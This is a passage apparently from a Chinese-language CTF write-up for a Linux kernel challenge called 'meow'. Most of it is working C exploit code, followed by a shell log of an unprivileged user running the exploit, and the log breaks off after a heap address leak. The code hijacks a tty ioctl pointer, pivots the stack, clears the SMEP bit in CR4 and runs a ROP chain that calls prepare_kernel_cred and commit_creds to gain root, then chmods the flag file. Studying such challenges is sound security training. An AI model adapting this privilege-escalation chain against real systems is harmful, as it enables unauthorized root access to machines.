 ```c
	size_t rop_base = heap_addr+0x2e0;
	buf.vec[3] = rop_base;
	buf.vec[0x2e0/8+0xc] = base_add(raw_regcache_mark_dirty);//ioctl
	buf.vec[0x20/8] = base_add(raw_mov_cr4_rdi);
	buf.vec[0x30/8] = 0x6f0;
	size_t xchg_eax_esp = base_add(raw_xchg_eax_esp);
	buf.vec[0x28/8] = xchg_eax_esp;

	size_t base = xchg_eax_esp & 0xfffff000;
	if(base != mmap(base,0x3000,7,MAP_PRIVATE | MAP_ANONYMOUS,-1,0)){
		fail("mmap failed!\n");
		exit(-1);
	}
	msg("base address:0x%llx\n",base);
	size_t pop_rdi = base_add(raw_pop_rdi);
	size_t pop_rdx = base_add(raw_pop_rdx);
	size_t mov_rdi_rax = base_add(raw_mov_rdi_rax);
	size_t pop_rsi = base_add(raw_pop_rsi);

	i=0;
	rop[i++] = pop_rdi;
	rop[i++] = 0;
	rop[i++] = prepare_kernel_cred_addr;
	rop[i++] = pop_rdx;
	rop[i++] = 0x100000001;
	rop[i++] = mov_rdi_rax;
	rop[i++] = commit_creds_addr;
	rop[i++] = pop_rdi;
	rop[i++] = 0xffffff9c;
	rop[i++] = pop_rsi;
	rop[i++] = flag_str;
	rop[i++] = pop_rdx;
	rop[i++] = 0777;
	rop[i++] = base_add(raw_x64_sys_chmod)+0xd;
	rop[i++] = pop_rdi;
	rop[i++] = 0x1000000;
	rop[i++] = base_add(raw_msleep);
	memcpy(xchg_eax_esp & 0xffffffff,rop,sizeof(rop));

	mod_write(fd,&buf,sizeof(buf));	
	ioctl(tty_fd,0,0);
	return 0;
}
```

运行效果如下：

```shell
ivan@ubuntu:~/kernel/meow$ sudo ./start.sh 
Boot took 3.09 seconds

 \\\    /// wWw     .-.    (O))  ((O)\\\    ///   .-.    (O))  ((O) 
 ((O)  (O)) (O)_  c(O_O)c   ||    || ((O)  (O)) c(O_O)c   ||    ||  
  | \  / |  / __),'.---.`,  || /\ ||  | \  / | ,'.---.`,  || /\ ||  
  ||\\//|| / (  / /|_|_|\ \ ||//\\||  ||\\//||/ /|_|_|\ \ ||//\\||  
  || \/ ||(  _) | \_____/ | / /  \ \  || \/ ||| \_____/ | / /  \ \  
  ||    || \ \_ '. `---' .`( /    \ ) ||    ||'. `---' .`( /    \ ) 
 (_/    \_) \__)  `-...-'   )      ( (_/    \_) `-...-'   )      (  
/ $ id
uid=1000 gid=1000 groups=1000
/ $ ls -al | grep flag
-r--------    1 root     root            28 Mar  8 09:26 flag
/ $ ./exp &
/ $ [*] leak heap addr: 0xffff8aca0db56c00
```